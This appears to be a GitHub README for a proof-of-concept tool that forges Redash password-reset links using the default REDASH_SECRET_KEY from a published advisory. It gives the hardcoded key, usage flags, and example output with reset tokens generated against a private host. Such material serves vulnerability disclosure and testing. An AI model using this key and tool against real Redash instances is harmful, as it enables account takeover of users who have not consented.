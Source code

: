 # redash-reset

This will use a default `REDASH_SECRET_KEY` key of `c292a0a3aa32397cdb050e233733900f` this allows you to reset the password of the user ID but you will need to know the email address assocaited with it.

Info
---

[https://github.com/getredash/redash/security/advisories/GHSA-g8xr-f424-h2rv](https://github.com/getredash/redash/security/advisories/GHSA-g8xr-f424-h2rv)

Setup
---

```
pip install -r requirements.txt
```

Usage
---

```
usage: redash.py [-h] [-s SECRET] -u URL [-p PROXY]

optional arguments:
  -h, --help            show this help message and exit
  -s SECRET, --secret SECRET
                        Weak REDASH_SECRET_KEY
  -u URL, --url URL     URL of host to check will need http or https
  -p PROXY, --proxy PROXY
                        Proxy for debugging
```

Example
---

```
[2021-11-29T15:44:27Z] root@MBP-3623:/tmp$ python3 test.py -u http://192.168.1.170
Rest Link http://192.168.1.170/reset/IjEi.YaT1sQ.e6w1vMsG-gx0OVT0qV5aH_aI7IA - UserID: 1

http://192.168.1.170/reset/IjIi.YaT1sQ.j67-OQljn2ivQiyw9Y9wa7G6GY0
Failed to Generate Reset Link for 2
```
